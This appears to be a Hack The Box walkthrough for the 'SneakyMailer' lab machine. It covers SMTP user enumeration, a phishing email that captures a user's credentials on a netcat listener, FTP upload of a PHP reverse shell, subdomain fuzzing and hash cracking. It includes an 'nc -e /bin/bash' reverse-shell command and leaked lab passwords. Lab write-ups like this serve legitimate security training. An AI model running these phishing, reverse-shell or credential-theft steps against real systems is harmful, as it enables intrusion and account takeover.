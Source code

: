 add sneakycorp.htb to /etc/hosts with its ip address

verify emails exist using the port using:

```
nc 10.10.10.197 25
```
and then

```
vrfy laelgreer@sneakymailer.htb

```

try smtp enumeration using this: https://www.hackingarticles.in/4-ways-smtp-enumeration/ and fail
try sending mails using this syntax and try to get a reverse shell using ```nc -e /bin/bash yourip port (nc -vlp on the attacker side) ```

reverse shell doesnt work but putting nc on port 80 would make it a simple http request, and u can send it via browser and try sending it mails,
test it on ur local by oopening a browser and typing http://localhost


for sending emails use 
https://www.wikihow.com/Send-Email-Using-Telnet


tried the following and failed
```
nc 10.10.10.197 25
220 debian ESMTP Postfix (Debian/GNU)
MAIL FROM: laelgreer@sneakymailer.htb
250 2.1.0 Ok
RCPT TO: glorialittle@sneakymailer.htb
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
http://10.10.14.117

<CR><LF>.<CR><LF>

.
250 2.0.0 Ok: queued as E99702470F
quit
221 2.0.0 Bye
```


to see all available commnad use ehlo command at port 25
```

ehlo
501 Syntax: EHLO hostname
ehlo 10.10.10.197
250-debian
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
```


https://linux.die.net/man/1/swaks
after that try using swaks and pray to science that all will be good.

using swaks like
```
swaks -to paulbyrd@sneakymailer.htb -server 10.10.10.197 -from glorialittle@sneakymailer.htb -body "http://10.10.14.117/"
```
didnt work the out put was crap


we finally created a custom shel script as in mailer.sh

run that with the cla as cewlmails.txt and  listen on port 80 with nc using ```nc -vlp 80```


once the script finishes u will get the following on the listener ``` firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt```

which can be edited as:
```
 firstName=Paul
&lastName=Byrd&
email=paulbyrd%40sneakymailer.htb
& password = %5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
& rpassword = %5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```
which on url decoding gives "
```
^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```


using this password i tried creating a mail client as sneapy.py but it didint work and i was told authentication was failed
i checked a few forums andit mentioned evolution hence i am trying that
 and it worked


found this in the sent items
"
llo administrator, I want to change this password for the developer account
 
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
 
Please notify me when you do it"

looks like this is the password will try on ftb and ssh

it doesnt work on ssh but i can sign in to ftp
 via:
``` ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:kali): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Oct 02 11:01 dev
226 Directory send OK.
ftp> tp 10.10.10.197
?Invalid command
ftp> Connected to 10.10.10.197.
?Invalid command
ftp> 220 (vsFTPd 3.0.3)
?Invalid command
ftp> Name (10.10.10.197:kali): developer
?Invalid command
```


Then i downnloaded the reverse shell php from pentest monkey from https://github.com/pentestmonkey/php-reverse-shell

after logging in ftp u can put it to ftp using the following commands after logging in:
```
cd dev
put php-reverse-shell.php
```

lil note: https://github.com/danielmiessler/SecLists--> install this using ```apt install seclists```

couldnt find it in the subdirectories forum mentions subdomain, in seclists subdomains can be found at "/usr/share/seclists/Discovery/DNS/"  so check subdomains using the following command
```
wfuzz -c -f subdomainSneakyMailer.log -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt  -u 'http://10.10.10.197/' -H 'Host:FUZZ.sneakycorp.htb' -t 50 --hc 404,301

```
u will find the dev subdowmain check the logs in subdomainSneakyMailer.log 

now change the /etc/hosts files and put the subdomain and remove the previous entry meaning now ur hosts file must contains:
``` 10.10.10.197 dev.sneakycorp.htb
```
once updated put the reverseshell.php using ftp

use nc to open the port listening via ```nc -vlp 1234 ```
now go to the link on browser that is ```dev.sneakycorp.htb/reverseshell.php```
 ur netcat will give u a shell for www-data, with that go to ```/var/www/pypi.sneakycorp.htb```
u will find a ".htpasswd" file there with the following content ```pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```
on identifying the hash using hashid tool we find the following: 
``` hashid -m '$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/'
Analyzing '$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/'                                                                                                                                                                                          
[+] MD5(APR) [Hashcat Mode: 1600]                                                                                                                                                                                                          
[+] Apache MD5 [Hashcat Mode: 1600]
```
PS: -m is for the output of hashcat
on using rockyou wordlist  with hashcat we find the following:
```
hashcat -m 1600 -a 0 --force -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt
User: $apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
password: soufianeelhaoui
```


